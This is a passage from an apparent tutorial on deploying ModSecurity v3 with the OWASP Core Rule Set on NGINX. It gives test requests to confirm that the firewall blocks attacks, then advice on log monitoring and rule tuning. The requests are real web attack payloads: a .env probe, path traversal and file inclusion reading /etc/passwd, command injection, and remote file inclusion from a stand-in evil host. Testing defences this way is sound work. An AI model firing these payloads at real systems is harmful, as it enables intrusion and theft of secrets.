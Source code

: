 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1761208682163/5d255e3c-d272-4de4-8bbd-98f79765f162.png align="center")

Attempt to access a sensitive `.env` file: `http://ip/.env`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1761208738333/81378f09-dd9b-4679-9249-bc55192112fb.png align="center")

Path traversal to access system files: `http://ip/index.php?file=../../../../etc/passwd`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1761208796956/dcd4820e-1dce-469f-a5f6-41d9fa0d1efe.png align="center")

Command Injection via GET parameter: `http://ip/?cmd=ls%20-la`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1761208886728/0927f406-4003-47f8-a88e-61c652b213c7.png align="center")

Local File Inclusion (LFI): `http://ip/?testfile=../../../../etc/passwd%00`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1761209542940/a29aea55-0dc2-40d6-b590-7bfd777ec6e3.png align="center")

Remote File Inclusion (RFI): `http://ip/?page=http://evil.example.com/shell.txt&cmd=ls`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1761210171906/25646912-3b44-4713-990a-b02fa3bfb7f5.png align="center")

If you receive 403 responses for these requests, congratulations! Your server is now protected by ModSecurity v3 and the industry-standard OWASP Core Rule Set.

# Your Server is Secured. What's Next?

Congratulations! By following this guide, you have successfully compiled ModSecurity v3 from scratch, integrated it as a dynamic NGINX module, and deployed the powerful OWASP Core Rule Set. Your web server now has a formidable, active defense against the web's most common and dangerous attacks.

But the journey doesn't end here. A WAF is not a "set it and forget it" tool. Your immediate next step is to **monitor and tune**.

* **Watch the Logs:** Keep a close eye on your ModSecurity audit log, which we configured at `/var/log/modsec_audit.log`. This file is your best friend. It will show you exactly *what* is being blocked and *why*.
    
* **Tune for False Positives:** The OWASP CRS is designed to be strict, which means it might occasionally block legitimate requests from your application (known as "false positives"). By analyzing the logs, you can identify these and create custom rules to whitelist specific actions for your application, ensuring normal functionality isn't interrupted.
    
* **Stay Updated:** Security is a moving target. Regularly update your OWASP CRS rules by running `git pull` inside the `/etc/nginx/modsec/coreruleset` directory to protect against the latest threats.
    

You've built a solid foundation for your web application's security. By actively monitoring and tuning your new WAF, you can maintain a robust defense that is perfectly tailored to your environment.